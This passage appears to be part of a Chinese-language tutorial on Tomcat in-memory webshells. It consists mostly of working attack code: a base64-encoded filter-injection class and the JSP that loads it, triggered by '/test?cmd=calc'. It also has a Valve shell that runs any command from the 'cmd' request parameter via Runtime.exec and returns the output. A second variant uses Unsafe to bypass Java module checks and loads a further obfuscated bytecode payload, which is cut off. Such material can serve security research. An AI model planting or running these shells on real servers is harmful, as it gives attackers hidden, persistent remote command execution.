ERlY2xhcmVkTWV0aG9kCgAuAB0KANQA2wwA3ADdAQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsIAN8BAA1maW5kRmlsdGVyRGVmCQDhAOIHAOMMAOQA5QEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsIAOcBABdmaWx0ZXIgYWxyZWFkeSBpbmplY3RlZAoA6QDqBwDrDADsAO0BABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgoAEADvDACsAJsIAPEBAC9vcmcuYXBhY2hlLnRvbWNhdC51dGlsLmRlc2NyaXB0b3Iud2ViLkZpbHRlckRlZggA8wEAL29yZy5hcGFjaGUudG9tY2F0LnV0aWwuZGVzY3JpcHRvci53ZWIuRmlsdGVyTWFwCAD1AQAkb3JnLmFwYWNoZS5jYXRhbGluYS5kZXBsb3kuRmlsdGVyRGVmCAD3AQAkb3JnLmFwYWNoZS5jYXRhbGluYS5kZXBsb3kuRmlsdGVyTWFwCAD5AQANc2V0RmlsdGVyTmFtZQgA+wEADnNldEZpbHRlckNsYXNzCAD9AQAMYWRkRmlsdGVyRGVmCAD/AQANYWRkVVJMUGF0dGVybgoAQwEBDAECAHoBAA1nZXRVcmxQYXR0ZXJuCAEEAQANc2V0VVJMUGF0dGVybggBBgEAEmFkZEZpbHRlck1hcEJlZm9yZQgBCAEADGFkZEZpbHRlck1hcAgBCgEAMG9yZy5hcGFjaGUuY2F0YWxpbmEuY29yZS5BcHBsaWNhdGlvbkZpbHRlckNvbmZpZwoAEAEMDAENAQ4BABdnZXREZWNsYXJlZENvbnN0cnVjdG9ycwEAIigpW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsKARAAHQcBEQEAHWphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yCgEQARMMAMMBFAEAJyhbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwgBFgEADWZpbHRlckNvbmZpZ3MLAG8BGAwBGQEaAQADcHV0AQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsIARwBABVmaWx0ZXIgaW5qZWN0IHN1Y2Nlc3MIAR4BABBqYXZhLnV0aWwuQmFzZTY0CAEgAQAKZ2V0RGVjb2RlcggBIgEABmRlY29kZQgBJAEAFnN1bi5taXNjLkJBU0U2NERlY29kZXIIASYBAAxkZWNvZGVCdWZmZXIHASgBAB1qYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbQoBJwAJBwErAQAdamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW0HAS0BABxqYXZhL2lvL0J5dGVBcnJheUlucHV0U3RyZWFtCgEsAS8MAAsBMAEABShbQilWCgEqATIMAAsBMwEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgoBKgE1DAE2ATcBAARyZWFkAQAFKFtCKUkKAScBOQwBOgE7AQAFd3JpdGUBAAcoW0JJSSlWCgEnAT0MAT4BPwEAC3RvQnl0ZUFycmF5AQAEKClbQgoBKgFBDAFCAAwBAAVjbG9zZQoBJwFBBwFFAQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgoAEAFHDAFIADYBAA1nZXRTdXBlcmNsYXNzEgAAAUoMAUsBTAEAF21ha2VDb25jYXRXaXRoQ29uc3RhbnRzAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsKAUQBTgwACwDtCgAcAHgSAAEBSgcBUgEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbhIAAgFKCgFRAAkKAEMBVgwBVwFYAQAIZ2V0RmllbGQBAD8oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEALExjb20vZXhhbXBsZS9kZW1vL01lbXNoZWxsL1Rlc3RGaWx0ZXJJbmplY3Q7AQAEdmFyMQEABHZhcjIBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAEdmFyMwEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABHZhcjQBAAR2YXI1AQAaTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAAR2YXI2AQAQTGphdmEvbGFuZy9Mb25nOwEABHZhcjcBAAV2YXIxMwEABXZhcjEyAQAEdmFyOQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEADVN0YWNrTWFwVGFibGUBAAR2YXI4AQAPTGphdmEvdXRpbC9NYXA7AQASTGphdmEvbGFuZy9UaHJlYWQ7AQAVTGphdmEvdXRpbC9BcnJheUxpc3Q7AQAKRXhjZXB0aW9ucwEACVNpZ25hdHVyZQEAJigpTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQAQTWV0aG9kUGFyYW1ldGVycwEAF0xqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAFdmFyMTEBAAV2YXIxMAEAH0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsBAAR2YXIwAQASTGphdmEvbGFuZy9TdHJpbmc7AQABSQEAH0xqYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbTsBAB9MamF2YS91dGlsL3ppcC9HWklQSW5wdXRTdHJlYW07BwGAAQATamF2YS9sYW5nL1Rocm93YWJsZQcBggEAE2phdmEvaW8vSU9FeGNlcHRpb24BACFMamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbjsBABZMb2NhbFZhcmlhYmxlVHlwZVRhYmxlAQAVW0xqYXZhL2xhbmcvQ2xhc3M8Kj47AQBgKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzPCo+O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQABZQEAIExqYXZhL2xhbmcvTm9TdWNoRmllbGRFeGNlcHRpb247AQAFY2xhenoBAAVmaWVsZAEAFExqYXZhL2xhbmcvQ2xhc3M8Kj47AQAKU291cmNlRmlsZQEAFVRlc3RGaWx0ZXJJbmplY3QuamF2YQEAEEJvb3RzdHJhcE1ldGhvZHMPBgGQCgGRAZIHAZMMAUsBlAEAJGphdmEvbGFuZy9pbnZva2UvU3RyaW5nQ29uY2F0RmFjdG9yeQEAmChMamF2YS9sYW5nL2ludm9rZS9NZXRob2RIY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";
    byte[] bytecode = null;
    try {
        Class base64Clz = Class.forName("java.util.Base64");
        Object decoder = base64Clz.getMethod("getDecoder").invoke(null);
        bytecode = (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, base64Str);
    } catch (ClassNotFoundException ee) {
        Class datatypeConverterClz = Class.forName("javax.xml.bind.DatatypeConverter");
        bytecode = (byte[]) datatypeConverterClz.getMethod("parseBase64Binary", String.class).invoke(null, base64Str);
    }
    Class clazz = new ClassDefiner(Thread.currentThread().getContextClassLoader()).defineClass(bytecode);
    clazz.newInstance();
%>
```

触发：两个的请求路径都是 `/test?cmd=calc`


### （4）value内存马

方式一：

```
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="java.io.*" %>
<%@ page import="org.apache.catalina.Pipeline" %>
<%@ page import="java.lang.reflect.Field" %>

<%!
    class EvilValve extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null && !cmd.isEmpty()) {
                try {
                    Process p = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
                    StringBuilder sb = new StringBuilder();
                    String line;
                    while ((line = br.readLine()) != null) {
                        sb.append(line).append("\n");
                    }
                    response.getWriter().write(sb.toString());
                    response.setStatus(HttpServletResponse.SC_OK);
                    response.getWriter().flush();
                    response.getWriter().close();
                    return;
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
            getNext().invoke(request, response);
        }

    }

%>
<%

    Object servletContext = application;

    try {
        // 通过反射获取ApplicationContext中的context字段（StandardContext）
        Field contextField = servletContext.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        Object applicationContext = contextField.get(servletContext);

        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

        // 成功获取到StandardContext，可以进行操作
        out.println("成功获取StandardContext: " + standardContext);
        out.println("<br>上下文路径: " + standardContext.getPath());
        out.println("<br>显示名称: " + standardContext.getDisplayName());
        // 2. 获取 Pipeline
        Pipeline pipeline = standardContext.getPipeline();

        // 3. 创建并添加 Valve
        pipeline.addValve(new EvilValve());

        out.println("Valve 注入成功!");

    } catch (NoSuchFieldException e) {
        out.println("反射获取失败: 找不到字段 - " + e.getMessage());
    } catch (IllegalAccessException e) {
        out.println("反射获取失败: 访问权限问题 - " + e.getMessage());
    } catch (Exception e) {
        out.println("获取StandardContext失败: " + e.getMessage());
    }


%>
```


方式二：

```
<%
    Object unsafe = null;
    Object rawModule = null;
    long offset = 48;
    java.lang.reflect.Method getAndSetObjectM = null;
    try {
        Class<?> unsafeClass = Class.forName("sun.misc.Unsafe");
        java.lang.reflect.Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
        unsafeField.setAccessible(true);
        unsafe = unsafeField.get(null);
        rawModule = Class.class.getMethod("getModule").invoke(page.getClass(), (Object[]) null);
        Object module = Class.class.getMethod("getModule").invoke(Object.class, (Object[]) null);
        java.lang.reflect.Method objectFieldOffsetM = unsafe.getClass().getMethod("objectFieldOffset", java.lang.reflect.Field.class);
        offset = (Long) objectFieldOffsetM.invoke(unsafe, Class.class.getDeclaredField("module"));
        getAndSetObjectM = unsafe.getClass().getMethod("getAndSetObject", Object.class, long.class, Object.class);
        getAndSetObjectM.invoke(unsafe, page.getClass(), offset, module);
    } catch (Throwable ignored) {
    }
    String base64Str = "yv66vgAAADIBRwEAI2NvbS9nb29nbGUvZ3NvL1ZsSU10L1NpZ25hdHVyZVV0aWxzBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEABjxpbml0PgEAAygpVgEAE2phdmEvbGFuZy9FeGNlcHRpb24HAAcBAA9zdW4ubWlzYy5VbnNhZmUIAAkBAA9qYXZhL2xhbmcvQ2xhc3MHAAsBAAdmb3JOYW1lAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwADQAOCgAMAA8BAAl0aGVVbnNhZmUIABEBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAATABQKAAwAFQEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkBwAXAQANc2V0QWNjZXNzaWJsZQEABChaKVYMABkAGgoAGAAbAQADZ2V0AQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAB0AHgoAGAAfAQAJZ2V0TW9kdWxlCAAhAQAJZ2V0TWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwwAIwAkCgAMACUBABNbTGphdmEvbGFuZy9PYmplY3Q7BwAnAQAYamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kBwApAQAGaW52b2tlAQA5KExqYXZhL2xhbmcvT2JqZWN0O1tMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7DAArACwKACoALQEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwwALwAwCgAEADEBABFvYmplY3RGaWVsZE9mZnNldAgAMwEABm1vZHVsZQgANQEADmphdmEvbGFuZy9Mb25nBwA3AQAPZ2V0QW5kU2V0T2JqZWN0CAA5AQAEVFlQRQEAEUxqYXZhL2xhbmcvQ2xhc3M7DAA7ADwJADgAPQwABQAGCgAEAD8BAApnZXRDb250ZXh0AQASKClMamF2YS91dGlsL0xpc3Q7DABBAEIKAAIAQwEADmphdmEvdXRpbC9MaXN0BwBFAQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7DABHAEgLAEYASQEAEmphdmEvdXRpbC9JdGVyYXRvcgcASwEAB2hhc05leHQBAAMoKVoMAE0ATgsATABPAQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7DABRAFILAEwAUwEACGdldFNoZWxsDABVAB4KAAIAVgEABmluamVjdAEAJyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspVgwAWABZCgACAFoBAA9wcmludFN0YWNrVHJhY2UMAFwABgoACABdAQAMZ2V0Q2xhc3NOYW1lAQAUKClMamF2YS9sYW5nL1N0cmluZzsBADJvcmcuYXBhY2hlLmh0dHAud2ViLmhhbmRsZXJzLnd4aGNzLkxvZ0pha2FydGFWYWx2ZQgAYQEAD2dldEJhc2U2NFN0cmluZwEFQEg0c0lBQUFBQUFBQS80MVVXMWNiVlJUK1RqTEpDZWx3clZpVFdxVDNYTUN4WUt0Q3RSYXNta29DUWtSYnZKMU1qa2tnbVJsbkpvQy94aWNYTHo1QWw0Ylc1ZkxSQjMrSlA2S0srMHdDQkFFbGEwM09aWis5OTdlL2Zmbmo3MTkrQXpDQkNzT0U3VllNNFFpektvMnE3enZHaGl3WlZXR1Y2OUwxakkzTnF1a1pjM2Jsb1ZnVHJpK1dSWDFkY2pDR2dWV3hMb3k2c0NyR2ZHbFZtajVIbUNIUlpjMFV2cWpYTEdGMGxDSU1QWTV3UmFNZ0dwSmhhTzdRd3BMdjFxektORVBZYkpSajZHSFFMTG5wTTF5Y085VWd2ZTRUM25lV3VkUjBITnYxWlptQlBXYUkzcTFaTmY4ZHNwVktMK3ZveDBBY0dnWkpVTFBXN1RYeXZKZzYwYXBwV3hiRllidkdvdnkyS1QxLytuK2ZlWTV0ZVhJNnZjeHdQb2ltWmh1NStRZWJwblQ4bW0xeERET01ycmFwTXp6cHJ0ZWxieXkxMTY1WEYvYlZBektLVmRmZUVLVTZVWmJRd1JIclFRZ1hHYTZmQ1RUSEpRYTlJdjBGUmJYMHBjdHdJM1djNi9UeEt4MnZZRFNPRVZ4bWlPMWIwSEZWWFlad2pmaW15NXpsTkgxU2tLTEJrRDdkc0dMaThDblp2b0dieWt5SzRKeU5WbzRNUXorNW5HLzZYVDV2cHBTSEV5bnRma2dleHpBZVJ4YXZIaW5XTmtxTzE3cFRkZ2lVWTRMaDZobnNjN3pPRUZxWjRiaEQxVW8zVkg2UjFNcE1PcWZqVGJ3Vnh5U202R2JEcmZsVWNwd2t1WnlxeDd0NE80N2JvUHJzZHdnSldSUG1XdEVWcHRUeHJxclZKTzdUZXdxN0VIVEFKUXIzOUI3UU1ZdjNGSzBQZEp6SEMrY1F4UWRIaXFtcnluSU1nNGVDeGFibDF4cEU4a2NNY2ZMV09UTU1wN3BMbzNOTmp2SW94REdIZVlwV2JrcFRKZUsvcTJyQnRVM3BlYVQ2TVJhVjZ0SVJBQjB4eHljTUYxS25WODJuY1N6ak14M25vS3RHb0E3bjNqNDVJeWQzY3BzYjFaVUROZS8rdjJZRWpZWEhPbnJScDZ4OVRaQktsSUNLYXpldGNnY1NRKzhzRmFBdkxKOHNOWWtUYmRZdTA5SWJKQ3N2bktKcVQrTHRnRjBQbDhtYUJwb3lDQ091dXBiMkpnM1pFTlQ0SWZDMDE1UmJXcFdNNWhMOWwrazBTQ3VqTlpMWnhkQU8xSStwWkpLcUV2OUFhakZhaTVuc0U3emN3cFZkWEMrTS80N0p6UGd1MGxQYVdBdkdWR1J3RkwvR3BxSUpMUkZ0WWZyUkhSNzZIZ09KU0NJYUh1WXQzTnZhKzNObkM3SENlQXN6bVJiZXo0NDl3NGRoN0FTTzcxRVJKV2tuYWY4R0ludTRCczRSNGhqaHlITGM0cGprdU0xSmh1ZElzajE2Rmo2UUE5UUNTUTNmMEcyVUlMK0lsK2lmWmtZbnVqNWFRNHFIN0hZUVdrZ05nazVvaFlBeklKbkpad3RnV3dqbm4ySWgyMEt4aFVkNU9vNXRCMlFvWUZlZy9RVXRjSHRyajdSQzdTMFlvWHNPSW55eU44Q2djdkNRUHVxTFkveitoSlh0RHIrZjQ0dU9lSWhBS0lEUlRQWm5yT3p6L3lXK09rRmQvTmdSbHc2eTF4dWM2V3RyNGgvS3Y0SXNYQWNBQUE9PQgAZAEAJigpTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQATamF2YS91dGlsL0FycmF5TGlzdAcAZwoAaAA/AQAQamF2YS9sYW5nL1RocmVhZAcAagEAEWdldEFsbFN0YWNrVHJhY2VzAQARKClMamF2YS91dGlsL01hcDsMAGwAbQoAawBuAQANamF2YS91dGlsL01hcAcAcAEABmtleVNldAEAESgpTGphdmEvdXRpbC9TZXQ7DAByAHMLAHEAdAEADWphdmEvdXRpbC9TZXQHAHYLAHcASQEAB2dldE5hbWUMAHkAYAoAawB6AQAcQ29udGFpbmVyQmFja2dyb3VuZFByb2Nlc3NvcggAfAEAEGphdmEvbGFuZy9TdHJpbmcHAH4BAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWgwAgACBCgB/AIIBAAZ0YXJnZXQIAIQBAA1nZXRGaWVsZFZhbHVlAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsMAIYAhwoAAgCIAQAGdGhpcyQwCACKAQAIY2hpbGRyZW4IAIwBAAZ2YWx1ZXMBABgoKUxqYXZhL3V0aWwvQ29sbGVjdGlvbjsMAI4AjwsAcQCQAQAUamF2YS91dGlsL0NvbGxlY3Rpb24HAJILAJMASQEABmFkZEFsbAEAGShMamF2YS91dGlsL0NvbGxlY3Rpb247KVoMAJUAlgsARgCXAQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwwAmQCaCgBrAJsBAAh0b1N0cmluZwwAnQBgCgAMAJ4BABlQYXJhbGxlbFdlYmFwcENsYXNzTG9hZGVyCACgAQAfVG9tY2F0RW1iZWRkZWRXZWJhcHBDbGFzc0xvYWRlcggAogEACXJlc291cmNlcwgApAEAB2NvbnRleHQIAKYBAANhZGQBABUoTGphdmEvbGFuZy9PYmplY3Q7KV